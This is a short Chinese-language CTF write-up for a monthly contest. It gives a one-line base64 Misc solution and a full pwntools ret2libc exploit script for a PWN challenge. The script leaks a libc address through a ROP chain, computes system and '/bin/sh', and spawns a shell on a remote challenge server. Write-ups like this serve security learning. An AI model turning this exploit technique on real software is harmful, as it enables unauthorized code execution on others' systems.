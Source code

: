markdown出问题的话直接看链接：https://akyoi.akyuu.space/blogs/CTF/monthgame2310/
# 解题情况
![](https://akyoi.akyuu.space/blogs/CTF/monthgame2310/self1.png)
![](https://akyoi.akyuu.space/blogs/CTF/monthgame2310/self2.png)
![](https://akyoi.akyuu.space/blogs/CTF/monthgame2310/misc.png)
![](https://akyoi.akyuu.space/blogs/CTF/monthgame2310/web.png)
![](https://akyoi.akyuu.space/blogs/CTF/monthgame2310/pwn.png)
![](https://akyoi.akyuu.space/blogs/CTF/monthgame2310/cry.png)


# 解题思路
## Misc
### level1-Login
直接看html，发现base64加密的一串。直接解密就是flag



## PWN
### ret2libc
Q:请嗯造libc
A:我嗯造libc

```
from pwn import*
context(arch='amd64',os='linux')
context.log_level='debug'
context.terminal=['tmux','splitw','-h']
elf=ELF('./pwn')
libc=ELF('./libc-2.31.so')
# p=process('./pwn')
# p=process(['./ld-2.31.so', './pwn'], env={"LD_PRELOAD":'./libc-2.31.so'})
# gdb.attach(p)
p=remote('8.130.110.158',2110)
 
func_addr=elf.got['write']
write_addr=elf.plt['write']
 
pop_rdi=0x4012a3
pop_rsi2=0x4012a1
ret=0x40101a
vuln=0x4011db
 
payload= b'a'*0x10+p64(pop_rdi)+p64(1)+p64(pop_rsi2)+p64(func_addr)+p64(0xdeadbeef)+p64(write_addr)+p64(vuln)
p.sendlineafter('voice :',payload)
p.recv()
func_addr=u64(p.recv(6).ljust(8,b'\x00'))
base=func_addr-libc.symbols['write']
system_addr=base+libc.symbols['system']
printf_addr=base+libc.symbols['printf']
sh=base+next(libc.search(b'/bin/sh'))
 
pause()
payload=b'a'*0x10+p64(pop_rdi)+p64(sh)+p64(system_addr)+p64(vuln)
p.sendlineafter('voice :',payload)
 
```